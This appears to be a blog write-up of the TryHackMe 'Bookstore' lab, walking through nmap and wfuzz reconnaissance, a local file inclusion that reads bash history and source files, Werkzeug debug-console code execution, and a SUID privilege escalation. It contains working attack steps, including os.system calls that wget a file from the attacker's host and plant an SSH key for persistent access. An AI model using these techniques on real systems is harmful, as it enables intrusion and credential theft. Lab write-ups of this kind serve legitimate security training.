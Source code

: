 ```yaml
---
layout: post
title:  "TryHackMe Bookstore writeup"
date:   2020-12-02 12:59:36 +0200
categories: writeup tryhackme
---
```


This is a writeup for TryHackMe room [Bookstore](https://tryhackme.com/room/bookstoreoc). 

## Reconnaissance

Let’s start with a nmap scan:
```bash
nmap -sC -sV -p- 10.10.238.197
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-29 10:40 EET
Nmap scan report for 10.10.238.197
Host is up (0.056s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
|_  256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Book Store
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-server-header: Werkzeug/0.14.1 Python/3.6.9
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ok, this is a Linux box running a web server and some Python based backend. Let’s take a closer look. The actual web site is pretty simple, I enumerate it and find some interesting notes regarding the backend:

```javascript
function getAPIURL() {
    var str = window.location.hostname;
    str = str + ":5000"
    return str;
}

async function getUsers() {
    var u=getAPIURL();
    let url = 'http://' + u + '/api/v2/resources/books/random4';
    try {
        let res = await fetch(url);
	return await res.json();
    } catch (error) {
        console.log(error);
    }
}
...
//the previous version of the api had a paramter which lead to local file inclusion vulnerability, glad we now have the new version which is secure.
```

on login page after unsuccessful login:
```html
<!--Still Working on this page will add the backend support soon, also the debugger pin is inside sid's bash history file -->
``` 

Nothing more so let’s focus on the backend. There is a documentation page which describes the API routes available.
Image for post
Looking at the comment about previous version vulnerability I test
```
GET /api/_v1_/resources/books?published=2014 HTTP/1.1 
````

It works so the previous API is still there. If there is a LFI at some parameter, let’s try to find it with wfuzz:
```bash
wfuzz -w /usr/share/wordlists/wfuzz/general/common.txt --hc 404 http://10.10.199.238:5000/api/v1/resources/books?FUZZ=1993

********************************************************
* Wfuzz 3.0.1 - The Web Fuzzer                         *
********************************************************
Target: http://10.10.199.238:5000/api/v1/resources/books?FUZZ=1993
Total requests: 949
===================================================================
ID           Response   Lines    Word     Chars       Payload                                              
===================================================================
000000751:   500        356 L    1747 W   23076 Ch    "_show_"
Total time: 10.57543
Processed Requests: 949
Filtered Requests: 948
Requests/sec.: 89.73629
```

Ok, there is a new parameter which isn’t documented. Let’s see what the response looks like:
![Response]({{ site.url }}/assets/bookstore/bookstoreresponse.png)

Ok, simply by specifying a filename in the show-parameter we can view it on the server.

## Gaining entry

Start by grabbing the user flag from `http://10.10.199.238:5000/api/v1/resources/books?show=/home/sid/user.txt`

And the WERKZEUG_DEBUG_PIN file might come handy later: 

````
http://10.10.199.238:5000/api/v1/resources/books?show=/home/sid/.bash_history

cd /home/sid whoami export WERKZEUG_DEBUG_PIN=__REDACTED__ echo $WERKZEUG_DEBUG_PIN python3 /home/sid/api.py ls exit
````

We can also take a look at the api source code: `view-source:http://10.10.199.238:5000/api/v1/resources/books?show=/home/sid/api.py``

With the debug pin we can execute any python code we want using the console:

![Response]({{ site.url }}/assets/bookstore/pythondebug.png)

This time I want SSH access to be able to wreck havoc fast. I accomplish this by uploading my SSH public key to the server and adding it to Sid’s account:
```python
os.system("mkdir /home/sid/.ssh")
os.system("wget http://10.8.108.247/authorized_keys")
os.system("cp authorized_keys /home/sid/.ssh")
````
and then ssh in as sid. There seems to be a cronjob deleting .ssh folder every two minutes but it seems it didn’t work.

## Privilege escalation

Immediately looking at Sid’s home directory it is clear what the PE vector is. There is a a binary with suid bit set:
![Response]({{ site.url }}/assets/bookstore/tryharder.png)

I download a copy and analyze with Cutter:
![Response]({{ site.url }}/assets/bookstore/Cutter.png)

Mmm.. bit arithmetic. To make it easy I just write a C program that does the arithmetic.

{% gist 1fe219ace66d29489a9c767429354118 %}

With the answer I can enter the magic number into the suid program and BOOM! I’m root.
